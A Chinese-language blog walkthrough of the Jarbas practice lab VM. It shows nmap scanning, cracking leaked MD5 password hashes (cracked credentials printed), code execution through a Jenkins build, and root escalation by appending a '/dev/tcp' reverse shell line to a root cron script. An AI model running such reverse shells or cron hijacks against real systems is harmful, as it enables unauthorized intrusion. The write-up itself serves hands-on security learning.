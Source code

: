```yaml
---
icon: pen-to-square
date: 2025-07-14
tags: 
title: Jarbas
category:
  - 项目
---
```

## 前言
可恶的virtualbox靶场，让我踩了一堆坑
1. virtualbox必须关闭Hyper-V，让我直接没办法用wsl-kali,因此还去特意下了一个kali，最开始想试一下hyper-V版本，但是根本没法运行bat，果断放弃换用VMware，少折腾，放心。
2. virtualbox的NAT不会产生虚拟网卡，而是在主机创建一个virtualbox路由，让我没办法直连虚拟机，后来换用仅主机模式才直连上
## 信息收集
```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sT --min-rate 10000 -p- 192.168.56.102 -oA nmapscan/ports 
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-13 13:34 EDT
Nmap scan report for 192.168.56.102
Host is up (0.025s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
110/tcp  open  pop3
3306/tcp open  mysql
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 18.85 seconds
```

### 详细信息扫描
```bash
──(kali㉿kali)-[~]
└─$ sudo nmap -sT -sV -sC -O -p22,25,110,3306,8080  192.168.56.102 -oA nmapscan/detail
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-13 13:57 EDT
Nmap scan report for 192.168.56.102
Host is up (0.00058s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 28:bc:49:3c:6c:43:29:57:3c:b8:85:9a:6d:3c:16:3f (RSA)
|   256 a0:1b:90:2c:da:79:eb:8f:3b:14:de:bb:3f:d2:e7:3f (ECDSA)
|_  256 57:72:08:54:b7:56:ff:c3:e6:16:6f:97:cf:ae:7f:76 (ED25519)
25/tcp   open  tcpwrapped
|_smtp-commands: Couldn't establish connection on port 25
110/tcp  open  tcpwrapped
3306/tcp open  mysql      MariaDB 10.3.23 or earlier (unauthorized)
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP|general purpose
Running: Actiontec embedded, Linux 2.4.X
OS CPE: cpe:/h:actiontec:mi424wr-gen3i cpe:/o:linux:linux_kernel cpe:/o:linux:linux_kernel:2.4.37
OS details: Actiontec MI424WR-GEN3I WAP, DD-WRT v24-sp2 (Linux 2.4.37)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.64 seconds
```

## 渗透过程
搜索框架Jenkins发现超多漏洞利用，随便用一个看看

 ![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250714023553.png)
只有一个文件读取可以用，可惜只能读取一行内容，没什么帮助

目光回到web，进入默认web页（80）这个端口似乎没扫描出来
爆破一下，发现
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250715082826.png)
```bash
tiago:5978a63b4654c73c60fa24f836386d87  
trindade:f463f63616cb3f1e81ce46b39f882fd5  
eder:9b38e2b1e8b12f426b0d208a7ab6cb98
```
用identifier识别一下哈希类型
[[w1r3s#**小技巧**--hash类型识别|hash识别]]
均为MD5
用在线工具解密
```bash
tiago:italia99
trindade:marianna
eder:vipsu
```
尝试在80端口登录
登陆成功，然后进行项目构建，在构建过程中执行反弹shell命令
tips：这里因为仅主机连接，所以又开了frp隧道，才连接上kali攻击机

经过一系列提权尝试，都没有成功，以下是可行方案
### Crontab定时任务提权
```bash
cat /etc/crontab
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
*/5 * * * * root /etc/script/CleaningScript.sh >/dev/null 2>&1
```
每五分钟执行一次`/etc/script/CleaningScript.sh`命令，查看一下
```bash
cat /etc/script/CleaningScript.sh
#!/bin/bash

rm -rf /var/log/httpd/access_log.txt
```
追加一条
```bash
echo "bash -i >& /dev/tcp/192.168.56.1/8883 0>&1" >> /etc/script/CleaningScript.sh
```
攻击机监听8883获得root权限shell

## 总结
1. 走了点弯路，学会了内网攻击机，与其他网段内网机器的通讯的方法，就是frp隧道
2. msfconsole不是万能的
3. 内网理论更新--定时任务

